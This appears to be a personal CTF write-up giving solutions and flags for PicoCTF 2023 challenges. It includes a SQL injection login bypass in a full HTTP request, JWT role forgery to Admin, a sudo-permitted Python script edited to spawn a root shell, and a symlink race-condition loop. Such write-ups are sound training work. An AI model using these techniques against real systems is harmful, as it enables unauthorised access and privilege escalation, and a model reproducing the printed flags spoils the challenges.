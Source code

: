 ```yaml
---
title: PicoCTF 2023
author: 0
date: 2023-03-28 16:00:00 +0800
categories: [picoctf, ctf]
tags: [linux jailbreak, sql injection, jwt, race condition, web, forensics, binary exploitation]
render_with_liquid: false
---
```


## Web - findme
View the request through Burp
picoCTF{proxies_all_the_way_be716d8e}

## Web - More SQL
Use burp for this one, otherwise you miss the flag.
In the login request use `x' OR 1=1 --' to do an authentication bypass. The flag gets printed in the response.

```
POST / HTTP/1.1
Host: XXX
User-Agent: XXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: XXX
Connection: close
Referer: XXX
Cookie: XXX
Upgrade-Insecure-Requests: 1

username=admin&password=x' or 1=1 --
```

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}

## Web - Java Code Analysis

### /books
```json
{"type":"SUCCESS","payload":[{"id":3,"title":"Little Brother","desc":"Little Brother is a novel by Cory Doctorow, published by Tor Books. It was released on April 29, 2008. The novel is about four teenagers in San Francisco who, in the aftermath of a terrorist attack on the San Francisco–Oakland Bay Bridge and BART system, defend themselves against the Department of Homeland Security's attacks on the Bill of Rights.","role":"Free"},{"id":4,"title":"The Future of the Internet and How to Stop It","desc":"The Future of the Internet and How to Stop It is a book published in 2008 by Yale University Press and authored by Jonathan Zittrain. The book discusses several legal issues regarding the Internet.","role":"Premium"},{"id":5,"title":"Flag","desc":"You need to have Admin role to access this special book!","role":"Admin"}]}
``` 

### SecretGenerator
    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

use jwt.io to decode the `authorization` header in the request to get the secret pdf `GET /base/books/pdf/5 HTTP/1.1`

change role, userid and email to admin
```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1679686364,
  "iat": 1679081564,
  "userId": 2,
  "email": "admin"
}
``` 

picoCTF{w34k_jwt_n0t_g00d_d7c2e335}

## Forensics - hideme
You get an image called flag.png
Running binwalk shows us that there is an image hidden in this flag.png
binwalk -e flag.png extracts secret/flag.png

Flag: picoCTF{Hiddinng_An_imag3within@n_ima9e_85e04ab8} 

## Forensics - PcapPoisining
You get a pcap file
In Wireshark, search by Packet Bytes, Regular expression, `picoCTF{.*}`

## Forensics - Who is it
You get an .eml file, open the .eml file with a text editor. Find the IP address of the mail server this mail has been sent from:
`Received: from mail.onionmail.org (mail.onionmail.org. [173.249.33.206])`

Search on whois.com for this IP.
```
person:         Wilhelm Zwalina
address:        Contabo GmbH
address:        Aschauer Str. 32a
address:        81549 Muenchen
phone:          +49 89 21268372
fax-no:         +49 89 21665862
nic-hdl:        MH7476-RIPE
mnt-by:         MNT-CONTABO
```

picoCTF{WilhelmZwalina}

## Forensics - FindandOpen
Analysing the pcap file, in the ethernet traffic we find a base64 encoded string ´VGhpcyBpcyB0aGUgc2VjcmV0OiBwaWNvQ1RGe1IzNERJTkdfTE9LZF8=´. This gives the password for the zip with the full flag.

picoCTF{R34DING_LOKd_fil56_succ3ss_cbf2ebf6}

## General - Chrono
`picoplayer@challenge:~$ cat /etc/crontab`
picoCTF{Sch3DUL7NG_T45K3_L1NUX_d83baed1}

## General - useless
`picoplayer@challenge:~$ man useless`
picoCTF{us3l3ss_ch4ll3ng3_3xpl0it3d_7065}

## Binary Exploitation - hijack
Python script in the home directory has root permissions, we use it to spawn a root shell and get the flag.
`sudo -l`
 ```bash
 Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

Modify `.server.py` script to spawn a shell `os.system("/bin/sh")`

Execute the python script as root: `sudo -u root /usr/bin/python3 /home/picoctf/.server.py`

```bash
Spawning root shell...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -lah
total 12K
drwx------ 1 root root   23 Mar 16 02:09 .
drwxr-xr-x 1 root root   51 Mar 27 05:46 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:09 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}
```
Flag: picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}

## General - Specialer
A restricted shell is spawn, after some trial and error we find out only `echo` and some basic syntax is allowed.

We can for loop over the directories to get the listing of files and directories, as `ls` isn't allowed, with `for entry in "directory_here"/*; do echo "$entry"; done`
```bash
Specialer$ for entry in "/home/ctf-player/"/*; do echo "$entry"; done
/home/ctf-player//abra
/home/ctf-player//ala
/home/ctf-player//echo
/home/ctf-player//sim
```

There are a bunch of txt files in these directories, while going through them and reading the content via `echo "$(<file_here.txt)"`. We find the flag:
```bash
Specialer$ echo "$(</home/ctf-player/ala/kazam.txt)"
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_c42168d9}
```

## Forensics - MSB
https://github.com/Pulho/sigBits/blob/master/sigBits.py
```bash
`python3 sigBits.py --type=Msb  Ninja-and-Prince-Genji-Ukiyoe-Utagawa-Kunisada.flag.png`
```

Output
```
has done what was commanded himin going to present himself before my lady Dulcinea del Toboso, he willhave done all that he was bound to do, and does not deserve furtherpunishment unless he commits some new offence."picoCTF{15_y0ur_que57_qu1x071c_0r_h3r01c_06326238}"Thou hast said well and hit the point," answered Don Quixote; and so Irecall the oath in so far 
```

## Binary - Tic-Tac
This challenge is about race conditions. The cpp program only can read files if they are the owner of the user executing this program. 
Create an empty file that the user owns

`touch myfile`

Setup a look that will iterate between creating a symlink to the flag.txt and our owned file. We hit the sweet spot where:
- The `textreader` perfoms the user check, our symlink `link` is linked to our owned file `myfile`
- Afterwards when the `textreader` reads the file, our symlink `link` is linked to the root owned file `flag.txt`
We let this script run in the background (`&`)

`while true; do ln -sf flag.txt link; ln -sf myfile link; done &`

Setup a look to constantly try to read our symlink `link`

```bash
ctf-player@pico-chall$ while true; do ./txtreader link; done
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_5748402c}
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
```
